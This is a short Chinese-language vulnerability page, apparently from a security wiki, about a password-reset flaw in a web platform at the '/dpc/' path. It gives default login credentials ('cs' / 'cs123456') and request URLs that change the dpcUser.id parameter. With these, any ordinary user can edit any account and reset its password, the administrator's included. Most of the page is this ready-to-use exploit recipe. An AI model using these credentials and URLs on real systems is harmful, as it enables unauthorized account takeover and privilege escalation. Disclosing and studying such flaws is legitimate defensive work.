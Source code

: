 <languages /> <translate>

前提條件
--------

</translate> <translate> 該漏洞需要普通用戶身份登錄平台，登錄平台後可以以普通用戶的權限重置所有用戶（包括管理員）的密碼。 </translate>

    https://<target>/dpc/

<translate>

默認用戶信息
------------

</translate>

    cs
    cs123456

<translate>

重置Admin密碼
-------------

</translate>

    https://<target>/dpc/dpcUser!preEdit.action?dpcUser.id=1

<translate> 修改dpcUser.id參數的值可以編輯任意用戶，其中可以對任意用戶進行重置密碼，如： </translate>

    https://<target>/dpc/dpcUser!preEdit.action?dpcUser.id=2

    https://<target>/dpc/dpcUser!preEdit.action?dpcUser.id=3